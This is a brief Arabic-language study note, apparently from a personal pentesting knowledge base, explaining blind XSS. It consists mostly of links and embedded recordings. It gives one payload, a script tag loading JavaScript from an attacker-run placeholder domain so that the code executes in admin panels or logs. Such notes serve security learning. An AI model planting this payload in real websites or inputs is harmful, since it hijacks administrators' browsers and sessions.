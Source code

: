 #### شرحها علشان تفهمها :  
- [[شرح الخطوه Blind XSS Payloads]]
- [[شرح فديوهات لل الخطوة Blind XSS Payloads]]

#### توضيح سريع :

![[Recording 20250629025752.m4a]]

![[Recording 20250629025840.m4a]]


#### ✅ فكرة الهجوم:

تحقن السكريبت في مكان مبيتظهرش ليك، لكن بيتنفذ في Admin Panel أو Logs أو مكان تاني.

### البايلود اللي تستخدمها :

```html 
<script src="https://xss.yourdomain.com/x.js"></script>
```

![[XSS_exploit_pyloads.txt]]

